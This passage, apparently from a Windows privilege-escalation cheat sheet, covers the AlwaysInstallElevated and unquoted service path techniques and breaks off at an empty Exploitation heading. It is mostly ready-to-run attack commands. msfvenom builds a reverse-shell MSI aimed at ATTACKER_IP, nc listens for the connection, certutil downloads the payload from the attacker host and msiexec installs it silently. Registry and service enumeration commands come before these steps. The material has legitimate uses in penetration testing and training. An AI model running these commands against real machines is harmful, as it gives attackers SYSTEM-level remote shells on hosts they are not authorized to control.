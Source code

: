**Time:** 2-3 minutes
**Success Rate:** 95%+ if privilege exists

---

## Priority 2: AlwaysInstallElevated

### Check Registry Keys

```powershell
# Both must be set to 0x1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Exploitation

**If both return `0x1`:**

```bash
# On Kali: Create malicious MSI
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o exploit.msi

# Start listener
nc -lvnp 4444
```

```powershell
# On target: Download and install
certutil -urlcache -f http://ATTACKER_IP/exploit.msi exploit.msi
msiexec /quiet /qn /i exploit.msi
```


---

## Priority 3: Unquoted Service Paths

### Find Vulnerable Services

```powershell
# List services with unquoted paths
wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### Check Write Permissions

```powershell
# Check directory permissions
icacls "C:\Program Files\Vulnerable App"

# Look for M (Modify) or F (Full Control)
```

### Exploitation
